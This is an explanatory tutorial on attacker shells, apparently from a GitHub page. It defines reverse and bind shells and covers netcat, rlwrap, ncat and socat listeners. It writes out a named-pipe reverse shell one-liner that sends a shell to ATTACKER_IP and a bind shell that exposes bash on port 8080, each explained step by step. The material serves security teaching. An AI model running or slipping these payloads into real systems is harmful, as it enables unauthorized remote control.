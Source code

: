 # Shell
## What is a Shell? 

A shell is software that helps users interact with an operating system (OS). It can be a graphical interface but is often a command-line interface, depending on the OS. 

In cybersecurity, a shell typically refers to a session an attacker uses to access a compromised system, letting them run commands and execute programs. This access allows attackers to perform several actions. 

## Key Points: 

• Remote System Control: Attackers can execute commands or software on the target system from a distance. 

• Privilege Escalation: Attackers may try to gain higher access, such as administrative privileges if initial access is limited. 

• Data Exfiltration: They can read and copy sensitive data once they have command access.

• Persistence and Maintenance Access: Attackers can establish continued access through user accounts or backdoor software.

• Post-Exploitation Activities: After gaining shell access, they can deploy malware, create hidden accounts, or delete files. 

• Access Other Systems on the Network: The obtained shell may serve as an entry point for further attacks within the network, a practice known as pivoting. 

The shells discussed later can help achieve various attack objectives.

# Reverse Shell 

A reverse shell, known as a "connect back shell," is a common technique used in cyberattacks to gain access to a system. It connects from the target system to the attacker's machine, which helps evade detection by security devices like firewalls. 

## How Reverse Shells Work 

• Set up a Netcat Listener: To understand how a reverse shell operates, we use the Netcat tool, which works on various operating systems and allows reading and writing over a network. The attacker sets up a listener using the command `nc -lvnp 443`. 

• These command options include `-l` for listening, `-v` for verbose mode, `-n` to prevent DNS lookups, and `-p`, which specifies the port to wait for connectionshere, port 443. Attackers often use commonly known ports (53, 80, 8080, 443, 139, or 445) to blend in with regular traffic and not get detected. 

• Gaining Reverse Shell Access: After setting up a listener, the attacker executes a reverse shell payload. This payload usually exploits a vulnerability or unauthorized access to create a shell that communicates over the network. Different payloads depend on the tools and operating systems used, one example being the pipe reverse shell: 

``` 
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2&gt;&amp;1 | nc ATTACKER_IP ATTACKER_PORT &gt;/tmp/f 
``` 

• Explanation of the Payload: 

• `rm -f /tmp/f`: Deletes any existing named pipe file at /tmp/f to create a new one without issues. 

• `mkfifo /tmp/f`: Creates a named pipe, enabling two-way communication. 

• `cat /tmp/f`: Reads input from the named pipe.

• `| bash -i 2&gt;&amp;1`: Connects input to an interactive shell, sending error messages back. 

• `| nc ATTACKER_IP ATTACKER_PORT &gt;/tmp/f`: Sends the shell output to the attacker's machine. 

• Attacker Receives the Shell: After the payload runs, the attacker receives a reverse shell and can execute commands as if they were logged into a normal terminal. 

### Example output from the attacker receiving the shell: 

``` 
Listening on [any] 443 . . . 
connect to [10. 4. 99. 209] from (UNKNOWN) [10. 10. 13. 37] 59964 
``` 

This connection shows the target's IP address, indicating successful access.

# Bind Shell 

A bind shell is a method used by attackers to remotely execute commands on a compromised system by binding a port and listening for incoming connections. This approach is useful when the target does not permit outgoing connections, but it is less common due to the risk of detection when the shell stays active and listens. 

## How Bind Shells Work 

Setting Up the Bind Shell on the Target 
To create a bind shell, an attacker runs the following command on the target machine: 

``` 
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2&gt;&amp;1 | nc -l 0. 0. 0. 0 8080 &gt; /tmp/f 
``` 

## Explanation of the Payload: 

• `rm -f /tmp/f`: Removes any existing named pipe at `/tmp/f` to avoid conflicts. 

• `mkfifo /tmp/f`: Creates a new named pipe at `/tmp/f` for two-way communication. 

• `cat /tmp/f`: Reads data from the named pipe, waiting for input. 

• `| bash -i 2&gt;&amp;1`: Sends the output from the named pipe to an interactive shell, 
allowing command execution and error messages to be sent back. 

• `| nc -l 0. 0. 0. 0 8080`: Starts Netcat in listening mode at port 8080 on all interfaces, exposing the shell to any incoming connections. 

• `&gt;/tmp/f`: Redirects the output back into the named pipe for two-way communication. 

Ports below 1024 require elevated privileges for execution, thus port 8080 is chosen to avoid this. 

## Attacker Connects to the Bind Shell 

After the bind shell is set up, the attacker connects using the command: 

``` 
nc -nv TARGET_IP 8080 
``` 

## Explanation of the command: 

• `nc`: Calls Netcat to establish the connection. 

• `-n`: Disables DNS resolution for faster performance. 

• `-v`: Enables verbose mode for detailed output. 

• `TARGET_IP`: The target's IP address where the bind shell is set up. 

• `8080`: The listening port of the bind shell. 

The attacker will see an open connection once connected, allowing them to execute commands on the target machine.

# Tools for Listening to Reverse Shells 

## Introduction: 
This content discusses different utilities that can be used as listeners for connecting with reverse shells from compromised targets to an attacker's machine. 

## Key Points: 

1. Reverse Shell Overview: 
A reverse shell connects a compromised target back to the attacker's machine. While Netcat is commonly used, other utilities can also facilitate this. 

2. Rlwrap: 
• A small utility that enhances Netcat by providing keyboard editing and command history features. 

• Usage Example: 
``` 
attacker@kali:~$ rlwrap nc -lvnp 443 
``` 

3. Ncat: 

• An enhanced version of Netcat from the NMAP project, offering additional features such as SSL encryption. 

• Listening without SSL: 
``` 
attacker@kali:~$ ncat -lvnp 4444 
``` 
• Listening with SSL: 
``` 
attacker@kali:~$ ncat --ssl -lvnp 4444 
``` 

4. Socat: 
• A utility that creates socket connections between different hosts. 

• Default Usage Example: 
``` 
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT 
``` 

## Conclusion: 
These tools provide various functionalities to listen for incoming reverse shells, enhancing the attacker's ability to manage interactions with compromised systems.